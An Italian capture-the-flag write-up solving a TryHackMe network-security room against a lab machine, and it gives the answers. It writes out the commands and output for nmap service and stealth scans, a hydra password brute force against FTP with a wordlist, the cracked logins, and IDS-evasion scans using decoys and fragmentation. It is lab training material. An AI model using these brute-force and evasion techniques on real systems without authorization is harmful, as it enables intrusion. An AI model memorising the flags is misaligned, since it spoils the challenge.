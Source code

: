 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/netsecchallenge

Usa questa sfida per testare la tua padronanza delle competenze acquisite nel modulo Network Security. Tutte le domande di questa sfida possono essere risolte usando solo `nmap`, `telnet`, e `hydra`.

```
map -sV -O -Pn -sS -v -p- 10.10.187.176
```

```
root@ip-10-10-115-42:~# nmap -sV -O -Pn -sS -v -p- 10.10.187.176
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-28 06:21 GMT
NSE: Loaded 45 scripts for scanning.
Initiating ARP Ping Scan at 06:21
Scanning 10.10.187.176 [1 port]
Completed ARP Ping Scan at 06:21, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 06:21
Completed Parallel DNS resolution of 1 host. at 06:21, 0.00s elapsed
Initiating SYN Stealth Scan at 06:21
Scanning 10.10.187.176 [65535 ports]
Discovered open port 80/tcp on 10.10.187.176
Discovered open port 139/tcp on 10.10.187.176
Discovered open port 22/tcp on 10.10.187.176
Discovered open port 445/tcp on 10.10.187.176
Discovered open port 8080/tcp on 10.10.187.176
Discovered open port 10021/tcp on 10.10.187.176
Completed SYN Stealth Scan at 06:21, 4.86s elapsed (65535 total ports)
Initiating Service scan at 06:21
Scanning 6 services on 10.10.187.176
Completed Service scan at 06:21, 11.02s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 10.10.187.176
Retrying OS detection (try #2) against 10.10.187.176
Retrying OS detection (try #3) against 10.10.187.176
Retrying OS detection (try #4) against 10.10.187.176
Retrying OS detection (try #5) against 10.10.187.176
NSE: Script scanning 10.10.187.176.
Initiating NSE at 06:21
Completed NSE at 06:21, 0.07s elapsed
Initiating NSE at 06:21
Completed NSE at 06:21, 0.02s elapsed
Nmap scan report for 10.10.187.176
Host is up (0.00039s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
80/tcp    open  http        lighttpd
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
8080/tcp  open  http        Node.js (Express middleware)
10021/tcp open  ftp         vsftpd 3.0.5
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.80%I=7%D=12/28%Time=676F98E2%P=x86_64-pc-linux-gnu%r(NUL
SF:L,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");
MAC Address: 02:C2:18:9F:F8:29 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/28%OT=22%CT=1%CU=37547%PV=Y%DS=1%DC=D%G=Y%M=02C218%
OS:TM=676F98F2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=
OS:I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11
OS:NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=
OS:F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%
OS:T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(
OS:R=Y%DFI=N%T=40%CD=S)

Uptime guess: 8.210 days (since Fri Dec 20 01:19:40 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.84 seconds
           Raw packets sent: 65646 (2.892MB) | Rcvd: 65606 (2.628MB)

```
Qual è il numero di porte aperte più alto, inferiore a 10.000?


```
8080
```

C'è una porta aperta al di fuori delle 1000 porte comuni; è sopra le 10.000. Di cosa si tratta?  

```
10021
```

Quante porte TCP sono aperte?  

```
6
```

Cos'è il flag nascosto nell'intestazione del server HTTP?  

```
root@ip-10-10-115-42:~# telnet 10.10.187.176 80
Trying 10.10.187.176...
Connected to 10.10.187.176.
Escape character is '^]'.
GET /index.html HTTP/1.1
host: telnet

HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "229449419"
Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
Content-Length: 226
Date: Sat, 28 Dec 2024 06:24:47 GMT
Server: lighttpd THM{web_server_25352}

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Hello, world!</title>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
</head>
<body>
  <h1>Hello, world!</h1>
</body>
</html>
Connection closed by foreign host.
root@ip-10-10-115-42:~# 


```
Qual è il flag nascosto nell'intestazione del server SSH?  

```
THM{946219583339}
```

Abbiamo un server FTP in ascolto su una porta non standard. Qual è la versione del server FTP?  

```
vsftpd 3.0.5
```

Abbiamo scoperto due nomi utente tramite social engineering:  `eddie` e  `quinn`. Qual è il flag nascosto in uno di questi due file di account e accessibile tramite FTP?  

```
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.187.176:10021 -t 4
```
login: eddie   password: jordan

```
root@ip-10-10-115-42:~# ftp 10.10.187.176 10021
Connected to 10.10.187.176.
220 (vsFTPd 3.0.5)
Name (10.10.187.176:root): eddie
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> 

```
login: quinn   password: andrea
```
root@ip-10-10-115-42:~#  ftp 10.10.187.176 10021
Connected to 10.10.187.176.
220 (vsFTPd 3.0.5)
Name (10.10.187.176:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> cat ftp_flag.txt
?Invalid command
ftp> less ftp_flag.txt
?Invalid command
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (30.4120 kB/s)
exit
```
```
root@ip-10-10-115-42:~# cat ftp_flag.txt
THM{321452667098}
```
Navigando su  `http://MACHINE_IP:8080` viene visualizzata una piccola sfida che ti darà una bandiera una volta risolta. Cos'è la bandiera?

Your mission is to use Nmap to scan 10.10.187.176 (this machine)
as covertly as possible and avoid being detected by the IDS.
```
nmap -sF -T2 -f -D RND:10 -p8080 -n 10.10.187.176
```
	funziona ma non per la sfida
proviamo
```
nmap -sN 10.10.187.176
```
```
 Exercise Complete! Task answer: THM{f7443f99} 
```







